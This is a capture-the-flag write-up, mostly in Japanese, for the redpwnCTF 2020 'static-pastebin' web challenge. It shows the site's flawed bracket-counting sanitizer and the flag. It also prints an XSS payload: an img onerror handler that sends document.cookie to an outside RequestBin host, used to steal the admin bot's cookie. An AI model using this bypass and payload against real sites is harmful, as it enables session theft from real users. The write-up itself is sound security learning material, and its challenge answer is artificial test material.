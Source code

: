 # static-pastebin:web:373pts
I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it [here](https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin)  
Site: [static-pastebin.2020.redpwnc.tf](https://static-pastebin.2020.redpwnc.tf/)  
Note: The site is entirely static. Dirbuster will not be useful in solving it.  

# Solution
ターゲットサイトとAdmin Botへ巡回命令を出せるサイトが与えられる。  
Static Pastebin  
[site1.png](site/site1.png)  
Static Pastebin Admin Bot Submission  
[site2.png](site/site2.png)  
入力によりユーザがページを作成できるようだ。  
そのページをAdmin Botに渡し、XSSでクッキーを抜く可能性が高い。  
作成したページでのXSSを試み、[RequestBin.com](https://requestbin.com/)で待ち受ける。  
作成したページでは以下のスクリプト(script.js)が動いていた。  
```JavaScript:script.js
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```
`<`と`>`をカウントしタグをブロックしている。  
しかし以下のように一度`>`をかませるとタグを書き込める。  
```html
><img src=1 onerror="window.location.href='https://[RequestBinURL]?get='+document.cookie">
```
これによって作成されたページをAdmin Botに渡すとflagが得られる。  
```text
GET/?get=flag=flag{54n1t1z4t10n_k1nd4_h4rd}
```

## flag{54n1t1z4t10n_k1nd4_h4rd}